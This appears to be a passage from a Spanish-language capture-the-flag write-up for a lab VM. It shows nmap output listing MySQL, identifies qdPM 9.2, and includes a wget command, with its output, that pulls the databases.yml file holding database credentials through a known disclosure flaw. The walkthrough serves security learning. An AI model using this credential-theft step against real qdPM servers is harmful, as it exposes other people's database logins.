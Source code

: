 ```
|   Some Capabilities: SupportsLoadDataLocal, Speaks41ProtocolNew, LongColumnFlag, IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, ODBCClient, SupportsCompression, FoundRows, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: =E$"{hv:[>cYsYAwU$PH
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:CA:41:4C (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 25 15:14:02 2023 -- 1 IP address (1 host up) scanned in 23.80 seconds
```

No vemos ningún puerto por el que nos podamos autenticar, pero vemos que existe un puerto **`3306`**, el puerto de **`MySQL`**.

### Inspección
Al entrar a la web podemos ver una pantalla para iniciar sesión, aunque lo más curioso es que no funciona, pero eso no importa. Vamos a fijarnos en la versión de **`qdPM`**:

![qdPMLogin](/assets/img/imgs/bah/qdPMLogin.png)

Vemos que es la versión **`9.2`** y, tras buscar un poco de información, nos encontramos con un fallo que permite al atacante ver la conexión y la contraseña de la base de datos.

Haremos caso al [**`PoC`**](https://www.exploit-db.com/exploits/50176) y visitaremos la ruta que nos especifica para poder descargarnos en fichero **`YAML`** que contiene los datos:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Bah/content]
└─# wget http://192.168.1.110/core/config/databases.yml
--2023-09-26 15:16:05--  http://192.168.1.110/core/config/databases.yml
Connecting to 192.168.1.110:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 273 [application/octet-stream]
Saving to: ‘databases.yml’

databases.yml                     100%[===========================================================>]     273  --.-KB/s    in 0s      

2023-09-26 15:16:05 (10.7 MB/s) - ‘databases.yml’ saved [273/273]
```
